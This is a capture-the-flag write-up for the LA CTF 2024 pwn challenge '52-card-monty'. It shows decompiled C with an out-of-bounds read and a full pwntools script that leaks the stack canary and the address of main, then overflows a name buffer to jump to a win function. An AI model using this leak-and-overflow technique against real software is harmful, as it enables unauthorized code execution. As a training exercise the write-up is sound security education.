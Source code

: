 ```yaml
---
title: 52-card-monty
date:  2024-02-25T20:00:00+02:00
description: Writeup for 52-card-monty [LA CTF 2024]
type: writeup
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

3-card monty was too easy for me so I made 52-card monty! Can you show me the lady?

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash
└─$ checksec --file=monty 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty

```


We can see that it has all the protections, after opening it in Ghidra we can see that there is also a win() function that prints the flag, so it's a ret2win challenge. The vulnerability is that we can leak some addresses from the stack. The array from which we can read cards has 52 elements but our input let us read 0x52 elements from the array. 

```C
void game(void)

{
  long lVar1;
  long *plVar2;
  long in_FS_OFFSET;
  int local_1d8;
  int local_1d4;
  long local_1d0;
  long local_1c8 [52];
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  plVar2 = local_1c8;
  for (lVar1 = 0x34; lVar1 != 0; lVar1 = lVar1 + -1) {
    *plVar2 = 0;
    plVar2 = plVar2 + 1;
  }
  for (local_1d4 = 0; local_1d4 < 0x34; local_1d4 = local_1d4 + 1) {
    lVar1 = lrand();
    local_1c8[local_1d4] = lVar1;
  }
  local_1d8 = rand();
  local_1d8 = local_1d8 % 0x34;
  local_1c8[local_1d8] = 0x423a35c7;
  puts("==============================");
  printf("index of your first peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 1: %lu\n",local_1d0);
  puts("==============================");
  printf("index of your second peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 2: %lu\n",local_1d0);
  puts("==============================");
  printf("Show me the lady! ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  puts("==============================");
  if (local_1c8[local_1d8] == 0x423a35c7) {
    puts("You win!");
  }
  else {
    puts("Just missed. Try again.");
  }
  puts("==============================");
  puts("Add your name to the leaderboard.");
  getchar();
  printf("Name: ");
  fgets(local_28,0x34,stdin);
  puts("==============================");
  printf("Thanks for playing, %s!\n",local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can leak two addresses from the stack with the peeks the binary allows us to do, then we are asked for the index where the lady card is but this isn't important for our exploit. After this we are asked for our name.

### Solution

To solve this challenge with the two peeks I leak the main address and the canary and then I send the payload when we are asked for our name. 

```py
from pwn import *


def get_peek_address(output):
    print(output)
    temp = output[9:-1]
    temp = temp.decode()
    return hex(int(temp))


target = process("./monty")
target = remote("chall.lac.tf",31132)

target.sendlineafter(b"peek?",b"57") # index for main  is 57
main = hex(int(get_peek_address(target.recvline()),16) - 0x30)
print(main)

target.sendlineafter(b"peek?",b"55") # index for canary is 55 
canary = get_peek_address(target.recvline())
print(canary)

target.sendlineafter(b"lady!",b"1")
print(target.recvline())

# gdb.attach(target)
# pause()

flag = int(main,16) - 0x415 # distance from main to flag
print(hex(flag))
payload = b"A"*24 + p64(int(canary,16)) + p64(flag) + p64(flag)
target.sendlineafter(b"Name:",payload)
#print(target.recvline())

target.interactive()

```